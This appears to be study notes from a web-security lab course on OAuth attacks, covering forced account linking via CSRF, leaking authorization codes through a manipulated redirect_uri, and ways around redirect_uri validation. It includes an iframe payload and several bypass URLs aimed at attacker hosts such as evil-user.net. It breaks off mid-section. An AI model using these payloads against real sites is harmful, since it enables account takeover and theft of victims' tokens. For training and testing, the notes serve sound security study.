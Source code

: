 ```
https://0a0d006403a89dffc05e7cff00760098.web-security-academy.net/oauth-linking?code=VX7aM1uLd8lfBba_jhuAKx-CA2eHXKANZawjSnUQ41k
```
Drop it to stop linking of our own account and send it inside of iframe to victim. When victim will follow the link, it's account will be linked to our social profile  
Note that if the site allows users to log in exclusively via OAuth, the state parameter is arguably less critical. However, not using a state parameter can still allow attackers to construct login CSRF attacks, whereby the user is tricked into logging in to the attacker's account.   
## Leaking authorization codes and access tokens
Depending on the grant type, either a code or token is sent via the victim's browser to the /callback endpoint specified in the redirect_uri parameter of the authorization request.  
f the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled redirect_uri.  
In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate /callback endpoint (the original redirect_uri) to get access to the user's account. In this scenario, an attacker does not even need to know the client secret or the resulting access token  
If Oauth app exposes code in redirect uri, we can craft malicious iframe as follows:
```
<iframe src="https://<oauth_server>/auth?client_id=<id>&redirect_uri=<exploit_server>&response_type=code&scope=openid%20profile%20email"></iframe>
```
And then we simply reuse our code in `/oauth-callback`
More secure authorization servers will require a redirect_uri parameter to be sent when exchanging the code as well. The server can then check whether this matches the one it received in the initial authorization request and reject the exchange if not. As this happens in server-to-server requests via a secure back-channel, the attacker is not able to control this second redirect_uri parameter.  
## Flawed redirect_uri validation
when the OAuth service receives a new request, it can validate the redirect_uri parameter against this whitelist. In this case, supplying an external URI will likely result in an error. However, there may still be ways to bypass this validation.  
* Some implementations allow for a range of subdirectories by checking only that the string starts with the correct sequence of characters i.e. an approved domain. You should try removing or adding arbitrary paths, query parameters, and fragments to see what you can change without triggering an error. 
* If you can append extra values to the default redirect_uri parameter, you might be able to exploit discrepancies between the parsing of the URI by the different components of the OAuth service. For example, you can try techniques such as: 
```
https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/
```
* You may occasionally come across server-side parameter pollution vulnerabilities. Just in case, you should try submitting duplicate redirect_uri parameters as follows: 
```
https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
```
* Some servers also give special treatment to localhost URIs as they're often used during development. In some cases, any redirect URI beginning with localhost may be accidentally permitted in the production environment. This could allow you to bypass the validation by registering a domain name such as localhost.evil-user.net.
Sometimes changing one parameter can affect the validation of others. For example, changing the response_mode from query to fragment can sometimes completely alter the parsing of the redirect_uri, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the web_message response mode is supported, this often allows a wider range of subdomains in the redirect_uri.  
## Stealing codes and access tokens via a proxy page
Try to find ways that you can successfully access different subdomains or paths. For example, the default URI will often be on an OAuth-specific path, such as /oauth/callback, which is unlikely to have any interesting subdirectories. However, you may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this: 